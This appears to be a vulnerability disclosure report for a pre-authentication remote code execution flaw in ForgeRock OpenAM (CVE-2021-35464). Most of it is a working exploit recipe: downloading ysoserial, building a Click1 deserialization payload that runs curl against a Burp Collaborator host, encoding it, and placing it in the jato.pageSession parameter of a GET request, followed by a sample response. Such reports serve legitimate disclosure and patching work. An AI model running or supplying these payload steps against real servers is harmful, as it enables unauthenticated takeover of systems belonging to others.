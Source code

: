 
## Pre-auth RCE in ForgeRock OpenAM (CVE-2021-35464)

RCE is possible thanks to unsafe Java deserialization in the Jato framework used by OpenAM.

## Steps To Reproduce

Vulnerable OpenAM: $URL
Target domain: $DOMAIN

First we need to build the payload, I will use the **curl** command but it could be another system command:
 1. Download this jar file 
``wget https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar``

 2. Create payload  ``java -jar ysoserial-master-SNAPSHOT.jar Click1 "curl https://XXX.burpcollaborator.net" | (echo -ne \\x00 && cat) | base64 | tr '/+' '_-' | tr -d '=' | tr -d '\n' > payload.txt`` 

You need to change the burp Collaborator id (or *Interactsh*) to test it properly. 
The payload is now saved in the payload.txt file. 

Now we need to use the following request:

```
GET /sso/ccversion/Version?jato.pageSession=XYZ HTTP/1.1
Host: 127.0.0.1
Content-Length: 4




```
Use the file attached on this email if the request doesn't work (pay attention to the empty lines at the bottom)
Replace **XYZ** by the payload saved into the payload.txt file. 

The response
```
HTTP/1.1 302 Found
Date: Fri, 02 Jul 2021 04:12:34 GMT
X-Powered-By: Servlet/3.0
Cache-Control: private
Location: http://127.0.0.1:80/sso/base/AMInvalidURL
Content-Length: 0
Content-Language: en-US

```
The HTTP Request sent the collaborator :


$SCREENSHOTS

## Impact

- An unauthenticated, 3rd-party attacker or adversary can execute remote code

 
### Supporting Material/References
- https://portswigger.net/research/pre-auth-rce-in-forgerock-openam-cve-2021-35464



